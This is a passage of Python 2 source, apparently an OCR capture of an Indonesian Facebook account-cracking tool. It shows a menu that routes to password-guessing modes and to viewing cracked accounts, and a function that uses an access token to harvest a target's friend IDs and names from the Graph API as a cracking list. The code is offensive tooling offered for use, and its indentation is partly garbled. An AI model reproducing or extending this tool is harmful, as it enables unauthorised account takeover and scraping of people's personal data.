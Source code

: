     	atursandi()
    elif asw == "3":
    	followers()
    	atursandi()
    elif asw == "4":
    	postingan()
    	atursandi()
    elif asw == "5":
    	fbbaru()
        sandimanual()
    elif asw == "6":
    	fbtua()
        sandimanual()
    elif asw == "7":
    	emailfb()
        sandimanual()
    elif asw == "8":
    	infotambahan()
    elif asw == "0":
    	os.system('rm -f token.txt')
    	jalan(" [✓] berhasil menghapus token ")
    	exit()
    else:
    	jalan(" [!] pilih jawaban dengan bener ! ")
    	menu() 
### INFORMASI TAMBAHAN ###
def infotambahan():
	print("\n [1] cek opsi hasil crack")
	print(" [2] lihat akun hasil crack")
	print(" [3] laporkan bug script")
	print(" [4] kembali ke menu")
	fall = raw_input("\n [?] pilih : ")
	if fall == "":
		menu()
	elif fall == "1":
		cekopsi()
	elif fall == "2":
		cekhasil()
	elif fall == "3":
		laporbug()
	elif fall == "4":
		menu()
	else:
		menu()
		
### DUMP PUBLIK ###
def publik():
	global token
	try:
		token = open("token.txt", "r").read()
	except IOError:
		exit(" [!] token kadaluwarsa")
	print(" [*] isi 'me' jika ingin crack dari daftar teman")
	idt = raw_input(" [*] masukan id atau username : ")
	try:
		for i in requests.get("https://graph.facebook.com/%s/friends?access_token=%s"%(idt, token)).json()["data"]:
			id.append(i["id"]+"<=>"+i["name"])
	except KeyError:
		exit(" [!] akun tidak tersedia atau list teman private")
	print("\n [+] total id  : %s%s%s"%(M,len(id),N)) 
  
